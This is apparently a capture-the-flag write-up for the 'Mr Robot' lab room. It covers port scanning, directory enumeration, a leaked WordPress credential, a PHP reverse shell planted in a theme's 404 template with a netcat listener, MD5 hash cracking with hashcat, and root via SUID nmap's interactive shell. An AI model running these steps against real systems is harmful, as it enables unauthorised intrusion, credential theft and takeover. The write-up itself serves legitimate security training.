 # Mr Robot
IP: 10.10.168.220

With a quick `nmap -T4 10.10.168.220` we see that we'll be dealing with at least SSH and HTTP(S).
```
Nmap scan report for 10.10.168.220
Host is up (0.20s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```
We'll run another scan to gain version information on these services:
`nmap -sVC -T4 10.10.168.220 -p22,80,443 -oN nmap-versions.txt`
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```

Let's start out by checking the website for vulnerabilities.
Navigating to 80 in the browser brings us to a cool interactive Mr Robot style simulated login page, with some options we can run to watch short videos.

Navigating to https://10.10.168.220:443, however, presents us with a security risk warning due to the self signed SSL certificate (which we see is for www.example.com in the nmap scan above). I'll add this to my /etc/hosts file and check it out in the browser again, accepting the self-signed certificate to open the page:
![Image showing edited /etc/hosts file](attachments/06.png)

Not surprisingly, we're served the same page as we saw on port 80, but we now have TLS encryption between us and the server...

I'll go ahead and continue exploring with the HTTP site on port 80 for now.

Entering `join` we're prompted for an email address. I enter a bogus one and it seems to accept it, saying "we'll be in touch". 

This main webpage doesn't seem to have anything interesting for us, so let's start enumerating subdirectories with gobuster:
`gobuster dir -u http://10.10.168.220 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

Immediately, we find many useful looking results, including /sitemap, /0, /admin, /wp-content, /wp-login, /page1, /readme, /robots, /dashboard, and many others. It seems that this site is running on WordPress, which could be a potential entry point depending on the version and what pages we have access to.
![Image showing gobuster progress](attachments/07.png)

In /license we find some some interesting strings:
"what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?"... "do you want a password or something?"..."ZWxsaW90OkVSMjgtMDY1Mgo="

Decoded from base64, the final string reads `elliot:ER28-0652`, which could be a login for the WordPress admin portal.

Continuing with other eyecatching directories, we find:
- /readme
	- "I like where you head is at. However I'm not going to help you" 
- /robots: 
	- User-agent: *
	  fsocity.dic
	  key-1-of-3.txt"

From here, we can navigate to `/key-1-of-3.txt` to obtain our first flag.

At this point, I thought that hypothetically, it might be beneficial to switch to the HTTPS site so that our traffic is encrypted, especially since I'd now be submitting credentials (and trying to exploit the WordPress Server), and having this encrypted might make this more difficult to monitor/detect. 

Using the potential credentials from eariler (`elliot:ER28-0652`)
we're able to login to the WordPress Admin Dashboard for "user's Blog" at /wp-admin.

From this point, I want to get a reverse shell onto the machine. Let's try by abusing the theme editor:
I'll start by saving and modifying a php reverse shell like that from PentestMonkey: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

In other rooms, I've modified the 404 Template to execute a reverse shell, so that's what I'll try first:
![Wordpress theme replacement for reverse shell](attachments/08.png)

*Modified 404.php template file for the Twenty Fifteen Theme*

Open a listener on attacking machine with `rlwrap nc -lnvp 53`

Navigate to `https://www.example.com/wp-content/themes/twentyfifteen/404.php` in the browser to establish the reverse shell.

Sure enough, it worked!
I'll upgrade this shell to be interactive:
`python -c 'import pty;pty.spawn("/bin/bash")'`

In `/home/robot` we see that there are two files: `key-2-of-3.txt` and `password.raw-md5`, the latter of the two containing this string: `robot:c3fcd3d76192e4007dfb496cca67e13b`.

Before we try to crack this hash, I'll use `hashid` to ensure we aren't being deceived by the filename; it looks good.
![Image showing hashid usage](attachments/09.png)

*Ran on attacking machine*
`hashcat -a 0 -m 0 tocrack /usr/share/wordlists/rockyou.txt -o cracked.txt; cat cracked.txt`

Using HashCat, we find that the original password is `abcdefghijklmnopqrstuvwxyz`.

Now we can `su robot` and enter this password to gain access to the robot user account and cat the second flag in this home directory.

I'm assuming the 3rd flag will require root privileges, so we'll start looking for privilege escalation vectors.
Running `sudo -l` states: "Sorry, user robot may not run sudo on linux."

Now being a little stuck, I looked at the hint for the final key, which simply reads "nmap." 

By running `find / -type f -perm -04000 2>/dev/null` to find binaries that have the SUID bit set, `/usr/local/bin/nmap` is in there. 

I tried to follow https://gtfobins.github.io/gtfobins/nmap/#suid but didn't have luck, since we don't have `sudo` privileges with our current level of access. However, simply trying `nmap --interactive` and `nmap> !sh` as explained [here](https://gtfobins.github.io/gtfobins/nmap/#shell) gave me root. 

Following the naming convention of the first two flags, we see that the final one is located in /root, and we're now able to submit it to finish the room.

![Image showing final flag location](attachments/10.png)